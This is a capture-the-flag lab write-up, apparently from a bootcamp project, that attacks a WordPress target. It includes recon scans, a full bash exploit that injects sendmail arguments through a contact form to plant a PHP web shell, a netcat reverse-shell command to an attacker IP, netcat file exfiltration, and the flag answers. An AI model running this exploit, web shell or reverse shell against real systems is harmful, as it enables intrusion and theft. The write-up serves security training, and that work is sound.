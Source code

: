 # Attacking Target 2

## Table of Contents
- [Discovering Vulnerabilities](#discovering-vulnerabilities)
- [Exploiting Discovered Vulnerability](#exploiting-discovered-vulnerability)
- [Flags](#flags)

### Discovering Vulnerabilities

- `nmap` scan
  - An nmap scan presented all abvailable ports.
    - Port 22 (SSH)
    - Port 80 (HTTP)
    - Port 111 (rpcbind)
    - Port 139 (netbios-ssn)
    - Port 445 (netbios-ssn)
  - `nmap -sS -sV 192.168.1.115`
- ![nmapscan](./Images/Target2/nmap%20scan%20target2.JPG)

- `nikto` scan
  - A nikto scan revealed all dangerous files/CGIs, outdated server software and other problems.
- ![niktoscan](./Images/Target2/nikto%20results.JPG)

- `gobuster` scan
  - A gobuster scan brute-forced all available URI's and DNS subdomains.
- ![gobusterscan](./Images/Target2/gobuster%20scan.JPG)

### Exploiting Discovered Vulnerability

-  A Contact Form 7 vulnerability was found.
  - This allowed an `exploit.sh` bash script to be run that allowed a `backdoor.php` file to be uploaded to the WordPress directory of the server.
```bash
#!/bin/bash
# Lovingly borrowed from: https://github.com/coding-boot-camp/cybersecurity-v2/new/master/1-Lesson-Plans/24-Final-Project/Activities/Day-1/Unsolved

TARGET=http://192.168.1.15/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```

- The `backdoor.php` file allowed for execution of command injection attacks on the target website.
  - `http://<Target 2 URL>/backdoor.php?cmd=<CMD>` can now be run in the Kali browser that uses `backdoor.php` to open a shell session on the target.
  - `nc -lnvp 4444` was used on the Kali terminal to open a listening port on port `4444`.
  - On the Kali browser `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` was used and a shell session was obtained on the target.
- ![shellsession](./Images/Target2/shell%20session.JPG)

### Flags

- `flag1.txt`: `a2c1f66d2b8051bd3a5874b5b6e43e21`
  - **Exploit Used**
    - Discovery of website directory listing.
    - After running a `gobuster` scan, the directory listing was found for the target and the flag was found at `http://192.168.1.115/vendor/PATH`
  - Commands run:
    - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115`
    - `http://192.168.1.115/vendor/PATH` (In Kali web browser.)

- `flag2.txt`: `6a8ed560f0b5358ecf844108048eb337`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/flag2.txt`.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash' (In Kali web browser.)
    - `cd /var/www`
    - `cat flag2.txt`

- `flag3.png`: `a0f568aa9de277887f37730d71520d9b`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`.
    - Netcat was used to exfiltrate the file to the attacking machine.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` (In Kali web browser.)
    - `find /var/www -type f -iname 'flag*'`
    - `nc -l -p 4444 > flag3.png` (recieving)
    - `cat flag3.png | netcat 192.168.1.90 4444` (sending)
- ![flag3](./Images/Target2/flag3.JPG)
